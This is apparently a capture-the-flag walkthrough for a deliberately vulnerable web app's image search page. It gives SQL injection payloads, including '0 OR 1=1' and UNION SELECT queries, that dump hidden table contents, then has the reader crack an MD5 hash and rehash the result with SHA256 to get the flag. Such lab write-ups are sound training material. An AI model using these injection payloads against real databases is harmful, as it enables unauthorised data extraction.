 # Breach 06 - Database image search vulnerability
- On the "HOME" page scroll down almost to the buttom
- Click the "SEARCH IMAGE" button
- On the "IMAGE NUMBER" page, copy and paste the following queries respecting their results after each submission
    ```sql
    0 OR 1=1
    ```
    ```sql
    0 UNION SELECT id, title FROM list_images
    ```
    ```sql
    5
    ```
    ```sql
    0 UNION SELECT title, comment FROM list_images WHERE id = 5
    ```
- Open the site https://md5hashing.net or similar in a separate window
- On the website, in the Decode section, select the "Md5" Hash type
- In the appropriate field, copy and paste the Hash String `1928e8083cf461a51303633093573c46`
- Click the "Decode!" button to decrypt the value of `albatroz`
- Go back to the main page of the site and paste the already lowercased Text `albatroz` into the Hash section
- Click the "Hash it!" button and find bellow hash Sha256 to get the flag

